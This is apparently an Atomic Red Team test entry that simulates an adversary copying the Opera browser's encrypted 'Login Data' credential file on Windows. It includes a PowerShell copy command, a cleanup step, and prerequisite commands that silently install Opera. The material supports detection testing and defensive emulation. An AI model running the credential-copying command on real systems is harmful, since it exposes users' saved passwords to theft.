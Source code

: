 
<br/>
<br/>

## Atomic Test #5 - Simulating access to Opera Login Data
Simulates an adversary accessing encrypted credentials from Opera web browser's login database.

**Supported Platforms:** Windows


**auto_generated_guid:** 28498c17-57e4-495a-b0be-cc1e36de408b






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:APPDATA\Opera Software\Opera Stable\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Opera must be installed
##### Check Prereq Commands:
```powershell
if (((Test-Path "$env:LOCALAPPDATA\Programs\Opera\launcher.exe") -Or (Test-Path "C:\Program Files\Opera\launcher.exe") -Or (Test-Path "C:\Program Files (x86)\Opera\launcher.exe"))) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\OperaStandaloneInstaller.exe"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\OperaStandaloneInstaller.exe" https://get.geo.opera.com/pub/opera/desktop/82.0.4227.43/win/Opera_82.0.4227.43_Setup.exe
Start-Process $installer -ArgumentList '/install /silent /launchopera=1 /setdefaultbrowser=0'
Start-Sleep -s 180
Stop-Process -Name "opera"
```
##### Description: Opera login data file must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "$env:APPDATA\Opera Software\Opera Stable\Login Data") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Path "$env:APPDATA\Opera Software\Opera Stable\Login Data" -ItemType File
```
